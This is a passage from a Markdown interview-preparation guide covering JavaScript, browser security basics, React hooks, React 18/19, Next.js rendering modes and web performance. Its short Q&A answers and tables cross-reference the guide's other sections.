document.querySelector("#list").addEventListener("click", e => {
  if (e.target.matches("li.item")) {
    console.log(e.target.textContent);
  }
});
// Benefits: fewer listeners, works for dynamic elements, less memory
```

It relies on event **bubbling**. See [19.5](#195-event-delegation).

**Q: What are WeakMap and WeakSet? When to use them?**
- WeakMap/WeakSet hold **weak references** — keys/values can be GC'd when no other references exist
- Keys must be **objects** (not primitives)
- NOT iterable, no `.size`
- **Use cases:** storing metadata about DOM nodes (auto-cleaned when the node is removed), private class data, caching without preventing GC. See [9.8](#98-weakmap-weakset-and-weakref).

**Q: Explain the event loop.**
"JS runs on one thread with a call stack. Async work is handed to the browser/Node, and callbacks are queued. When the call stack is empty, the event loop first drains **all microtasks** (promise callbacks), then runs **one macrotask** (e.g. a timer), then drains microtasks again, and so on. In browsers, rendering happens between macrotasks." See [Section 11](#11-event-loop-microtasks-and-macrotasks).

**Q: `var` vs `let` vs `const`?**
Function vs block scope; `var` is hoisted as `undefined`, `let/const` are hoisted into the TDZ; `const` can't be reassigned but objects it points to can be mutated. See [3.2](#32-var-vs-let-vs-const).

**Q: What is hoisting?**
During the creation phase of an execution context, declarations are registered before code runs: `var` → `undefined`, functions → full body, `let/const/class` → TDZ. See [3.3](#33-hoisting).

**Q: Explain `this` and the 4–6 binding rules.**
`new` binding → explicit (`call/apply/bind`) → implicit (`obj.method()`) → default (`undefined`/global). Arrow functions skip these rules and use lexical `this`. See [Section 5](#5-the-this-keyword-call-apply-and-bind).

**Q: Difference between `call`, `apply`, `bind`?**
`call` and `apply` invoke immediately (comma args vs array); `bind` returns a new function with `this` fixed. See [5.2](#52-call-apply-bind).

**Q: Promise.all vs allSettled vs race vs any?** See the table in [10.3](#103-promise-combinators).

**Q: What is the difference between microtasks and macrotasks?** See [11.9](#119-microtasks-vs-macrotasks).

**Q: How do you avoid memory leaks?** Clear timers/intervals, remove event listeners, avoid accidental globals, don't keep references to detached DOM nodes, release large closures, use WeakMap for metadata, clean up effects in React. See [16.2](#162-memory-leak-patterns).

**Q: CommonJS vs ES Modules?** Sync/dynamic vs static/async loading; value copy vs live bindings; only ESM is tree-shakeable. See [13.3](#133-commonjs-vs-esm).

**Q: Shallow vs deep copy?** See [6.11](#611-shallow-vs-deep-copy).

**Q: What are generators used for?** Pausable functions returning iterators — lazy sequences, pagination, custom iterables. See [9.10](#910-generators).

**Q: What's the difference between `for...in` and `for...of`?** Keys (including inherited enumerable ones) vs values of an iterable. See [8.5](#85-forin-vs-forof).

### 39.4 Browser and Security Questions

**Q: What happens when you type a URL and press Enter?** ➕
DNS lookup → TCP connection → TLS handshake → HTTP request → server response (maybe via CDN) → browser parses HTML into the DOM, fetches CSS/JS → builds CSSOM → render tree → layout → paint → composite → JS executes/hydrates. See [20.1](#201-how-browsers-render-pages-critical-rendering-path) and [23.4](#234-https-and-tls).

**Q: Reflow vs repaint?** Reflow recalculates layout (size/position) and is expensive; repaint redraws pixels (color) without layout; `transform`/`opacity` only need compositing. See [20.1](#201-how-browsers-render-pages-critical-rendering-path).

**Q: `async` vs `defer`?** See [20.2](#202-script-loading-async-vs-defer).

**Q: localStorage vs sessionStorage vs cookies vs IndexedDB?** See [21.1](#211-storage-apis-compared).

**Q: What is CORS and what is a preflight request?** See [21.4](#214-cors--cross-origin-resource-sharing).

**Q: Web Worker vs Service Worker?** See [21.6](#216-web-workers).

**Q: WebSocket vs SSE vs long polling?** See [21.7](#217-real-time-websockets-vs-sse-vs-long-polling).

**Q: XSS vs CSRF and how to prevent each?** See [23.2](#232-csrf--cross-site-request-forgery).

**Q: Where should you store a JWT?** In an `HttpOnly`, `Secure`, `SameSite` cookie (not localStorage, which XSS can read), plus CSRF protection. See [23.6](#236-jwt-json-web-tokens).

**Q: What is CSP?** See [23.3](#233-content-security-policy-csp).

**Q: HTTP/1.1 vs HTTP/2 vs HTTP/3?** See [22.1](#221-http11-vs-http2-vs-http3).

---

## 40. React and Next.js Interview Questions

### 40.1 React Core

| Question | Short answer | Details |
|---|---|---|
| What is the Virtual DOM? | In-memory JS representation of the UI; React diffs new vs old and patches only changes | [24.3](#243-what-is-the-virtual-dom) |
| What is reconciliation? | Diffing old vs new VDOM to minimize real DOM updates (type check + keys, O(n) heuristics) | [24.4](#244-what-is-reconciliation-reacts-diffing-algorithm) |
| What is React Fiber? | Async, interruptible rendering engine (units of work) enabling concurrent features | [26.1](#261-react-fiber-the-rendering-engine) |
| State vs props? | State is owned and changed by the component; props are read-only inputs from the parent | [24.5](#245-state-vs-props) |
| Why are keys important? Why not index? | Keys identify list items across renders; index keys break on reorder/delete (state on wrong row) | [24.8](#248-keys-in-lists) |
| Controlled vs uncontrolled? | React state vs DOM is the source of truth | [24.9](#249-controlled-vs-uncontrolled-components) |
| What is JSX? | Syntax sugar compiled to `React.createElement`/`jsx()` calls | [24.2](#242-what-is-jsx) |
| What are Portals? | Render children into a different DOM node while staying in the React tree | [24.12](#2412-react-portals) |
| What are Error Boundaries? What don't they catch? | Class components that catch render errors in children; not event handlers/async/SSR | [24.15](#2415-error-boundaries) |
| HOC vs render props vs hooks? | All reuse logic; hooks are the modern default | [26.11](#2611-component-patterns-hoc-render-props-compound-components) |
| Why does `{count && <X/>}` show 0? | `0` is a renderable value; use `count > 0 &&` | [24.14](#2414-null-vs-undefined-vs-false-vs-0-in-jsx) |
| What are synthetic events? | Cross-browser wrapper around native events; no pooling since React 17 | [24.17](#2417-synthetic-events) |
| Class vs function components? | Hooks replaced lifecycle methods; functions are the modern standard | [24.6](#246-class-vs-functional-components) |

### 40.2 Hooks

| Question | Short answer | Details |
|---|---|---|
| Rules of hooks — and why? | Top level only, only in components/custom hooks — React relies on call order | [25.1](#251-rules-of-hooks) |
| `useEffect` vs `useLayoutEffect`? | After paint vs before paint (sync) | [25.11](#2511-uselayouteffect) |
| `useMemo` vs `useCallback`? | Cached value vs cached function | [25.8](#258-usememo-vs-usecallback) |
| `useState` vs `useReducer`? | Simple vs complex/multi-action state | [25.9](#259-usereducer) |
| `useRef` vs `useState`? | Mutable box without re-render vs reactive state | [25.5](#255-useref) |
| Why does my effect run twice in dev? | Strict Mode mount → unmount → mount to surface missing cleanups | [26.7](#267-why-does-useeffect-run-twice-in-development) |
| What is a stale closure? | Callback captured an old render's values; use functional updates / correct deps / refs | [26.8](#268-stale-closures-in-useeffect) |
| Why does my effect run on every render with an object dep? | New reference each render; memoize or depend on primitives | [26.9](#269-objects-and-arrays-in-the-dependency-array) |
| How do you reset a component's state? | Change its `key` | [26.10](#2610-key-trick-for-resetting-state) |
| How to cancel a fetch in an effect? | `AbortController` in cleanup | [25.4](#254-cleaning-up-effects) |
| When should you NOT use `useEffect`? | Derived values, event-driven logic | [29.8](#298-avoid-unnecessary-useeffect) |
| What is a custom hook? | A `use*` function reusing stateful logic | [25.14](#2514-custom-hooks) |

### 40.3 React 18 and Performance

| Question | Short answer | Details |
|---|---|---|
| What's new in React 18? | Concurrent rendering, automatic batching, transitions, `useId`, streaming SSR, `createRoot` | [26.3](#263-react-17-vs-react-18) |
| What's new in React 19? | Actions, `useActionState`, `useFormStatus`, `useOptimistic`, `use()`, stable Server Components, `ref` as prop, metadata tags, React Compiler | [26.13](#2613-react-19-whats-new--added) |
| What does `useOptimistic` do? | Shows a temporary value while an async Action runs; reverts on failure | [26.13](#2613-react-19-whats-new--added) |
| How is `use()` different from other hooks? | Reads promises/context and can be called conditionally | [26.13](#2613-react-19-whats-new--added) |
| What did React 19 remove? | `propTypes`, function `defaultProps`, string refs, legacy context, `ReactDOM.render`, `findDOMNode` | [26.13](#2613-react-19-whats-new--added) |
| What is automatic batching? | Multiple state updates → one render, everywhere (timeouts, promises) | [26.4](#264-automatic-batching) |
| `useTransition` vs `useDeferredValue`? | Wrap a setter vs wrap a value | [26.6](#266-usedeferredvalue-defer-a-non-critical-value) |
| What causes re-renders? | State change, parent render, context change (props change follows parent render) | [29.3](#293-what-causes-re-renders) |
| What is `React.memo`? | HOC that skips re-render if props are shallow-equal | [29.4](#294-reactmemo-prevent-unnecessary-re-renders) |
| How to render 10,000 rows? | Virtualization (react-window) | [29.10](#2910-virtualization-for-large-lists) |
| What is code splitting? | Split the bundle into chunks loaded on demand (`React.lazy`, dynamic import) | [29.11](#2911-lazy-loading-and-code-splitting) |
| How to prevent memory leaks in React? | Clean up effects: clear timers, remove listeners, abort fetches | [29.12](#2912-memory-leaks-in-react) |
| Context performance problems? | All consumers re-render on value change; split contexts, memoize value | [28.4](#284-context-performance) |
| Redux vs Context vs Zustand vs React Query? | See comparison table | [28.9](#289-comparison-summary) |
| Debounce vs throttle? | Wait for a pause vs limit frequency | [19.6](#196-debounce-and-throttle) |

### 40.4 Next.js

| Question | Short answer | Details |
|---|---|---|
| SSR vs SSG vs ISR vs CSR? | Per request vs build time vs build + background regeneration vs in browser | [33.1](#331-overview) |
| What is hydration? Hydration error? | Attaching React to server HTML; mismatch when server and client render differently | [33.1](#331-overview) |
| `getStaticProps` vs `getServerSideProps`? | Build time vs every request | [33.6](#336-quick-revision-nextjs-data-fetching) |
| `fallback` options in `getStaticPaths`? | `false` → 404, `true` → loading then generate, `'blocking'` → SSR first time | [33.5](#335-dynamic-routes-with-getstaticpaths) |
| App Router vs Pages Router? | Server Components, nested layouts, streaming, Server Actions vs `getXProps` + `_app` | [34.1](#341-app-router-vs-pages-router-nextjs-13) |
| What are Server Components? | Components that run only on the server — zero client JS, direct data access | [34.4](#344-server-vs-client-components) |
| When do you need `'use client'`? | Hooks, event handlers, browser APIs | [34.4](#344-server-vs-client-components) |
| What is streaming SSR? | Send HTML progressively in chunks using Suspense boundaries | [34.6](#346-streaming-with-suspense) |
| What is middleware used for? | Auth redirects, rewrites, A/B tests, i18n — runs before the request completes | [34.7](#347-middleware) |
| What are Server Actions? | `'use server'` functions for mutations callable from forms | [34.9](#349-server-actions--added) |
| How does auth work in Next.js? | HttpOnly cookie JWT/session + middleware + server-side verification, or NextAuth | [34.8](#348-authentication-pattern-in-nextjs) |
| `NEXT_PUBLIC_` env vars? | Inlined into client bundle at build time — never secrets | [32.5](#325-environment-variables) |
| How does `next/image` help? | Resizing, modern formats, lazy loading, no CLS, `priority` for LCP | [35.1](#351-nextimage-automatic-image-optimization) |
| What is edge rendering? | Running server code on CDN edge nodes near the user | [35.4](#354-edge-rendering) |
| Redirect vs rewrite? | URL changes vs proxied silently | [32.8](#328-redirects-and-rewrites) |
| `_app.js` vs `_document.js`? | Client+server page wrapper vs server-only HTML shell | [32.6](#326-custom-_appjs-and-_documentjs) |

### 40.5 Performance and System Design

| Question | Short answer | Details |
|---|---|---|
| What is LCP? | Time to largest visible element — target < 2.5s | [37.2](#372-lcp-largest-contentful-paint) |
| What is CLS? | Layout shift score — target < 0.1 | [37.3](#373-cls-cumulative-layout-shift) |
| What is INP? | Responsiveness to interactions — target < 200ms | [37.4](#374-inp--fid-interactivity) |
| What is tree shaking? | Remove unused exports from the final bundle (needs ESM) | [36.1](#361-tree-shaking) |
| Preload vs prefetch? | Needed now (high priority) vs maybe later (idle) | [20.3](#203-resource-hints-preload-vs-prefetch) |
| What is a CDN? | Globally distributed cache serving assets near the user | [22.5](#225-cdn--content-delivery-network) |
| How do you approach frontend system design? | Requirements → architecture → data → performance → scalability → security/a11y | [38.1](#381-how-to-approach-a-frontend-system-design-question) |
| Design a news feed | React Query + cursor pagination, virtualization, WebSocket/SSE, optimistic updates | [38.5](#385-design-a-news-feed-like-twitterfacebook) |
| Design a product page | ISR + fresh price/stock, LCP/CLS focus, lazy-load below the fold | [38.6](#386-design-an-e-commerce-product-page) |
| Micro-frontends — when? | Many independent teams; otherwise prefer a monorepo | [38.7](#387-micro-frontends) |

---

## 41. Quick Revision Cheat Sheets

### 41.1 Most Important JavaScript Concepts to Master

| Topic | Key Points |
|-------|------------|
| Closures | Lexical scope, data privacy, memoization |
| Prototype chain | `__proto__`, `prototype`, inheritance |
| Event loop | Call stack, microtask queue, macrotask queue |
| `this` keyword | Binding rules (default, implicit, explicit, `new`, arrow/lexical) |
| Async patterns | Callbacks → Promises → async/await |
| Currying | Partial application, function composition |
| Immutability | Spread, Object.assign, structuredClone |
| Hoisting | var (undefined), let/const (TDZ), functions (full) |
| Type coercion | == vs ===, falsy values, Number() rules |
| Memory leaks | Timers, event listeners, closures, globals |

> Review **Event Loop, Closures, Prototypes, and Async Patterns** most carefully — they appear in nearly every interview.

### 41.2 React + Next.js One-Line Answers

| Question | 1-Line Answer |
|----------|---------------|
| What is React.memo? | HOC that skips re-render if props are same |
| useMemo vs useCallback? | useMemo = cached value, useCallback = cached function |
| What is Fiber? | Async rendering engine enabling interruptible work |
| What is reconciliation? | Diffing old vs new VDOM to minimize real DOM updates |
| SSR vs SSG vs ISR? | Runtime vs build-time vs incremental HTML generation |
| What is tree shaking? | Remove unused exports from final bundle |
| What is LCP? | Time to largest visible element — target < 2.5s |
| What is CLS? | Layout shift score — target < 0.1 |
| Debounce vs Throttle? | Debounce = wait for pause, Throttle = limit frequency |
| What are Server Components? | Components that run on server only — zero client JS |
| What is streaming SSR? | Send HTML progressively in chunks |
| How to prevent memory leaks? | Clean up effects: clear timers, remove listeners |

### 41.3 Debounce vs Throttle

| Feature   | Debounce       | Throttle           |
| --------- | -------------- | ------------------ |
| Execution | After stopping | At intervals       |
| Calls     | One (last)     | Multiple (limited) |
| Use Case  | Search input   | Scroll, resize     |

### 41.4 Hooks at a Glance

See [25.15 Hook Summary Table](#2515-hook-summary-table).

### 41.5 Next.js Data Fetching at a Glance

See [33.6 Quick Revision: Next.js Data Fetching](#336-quick-revision-nextjs-data-fetching).

### 41.6 Final Interview Tips

- Explain the **why** and the **trade-offs**, not just the syntax.
- For output questions, narrate: *call stack → microtasks → macrotasks*.
- For performance questions, start with **"measure first"**, then name concrete tools (Profiler, Lighthouse, bundle analyzer).
- For system design, structure your answer (requirements → architecture → data → performance → security/accessibility) and state assumptions out loud.

---

*Good luck with your interviews! Focus on understanding the **why** behind each concept, not just the syntax. Interviewers love candidates who can explain trade-offs.*
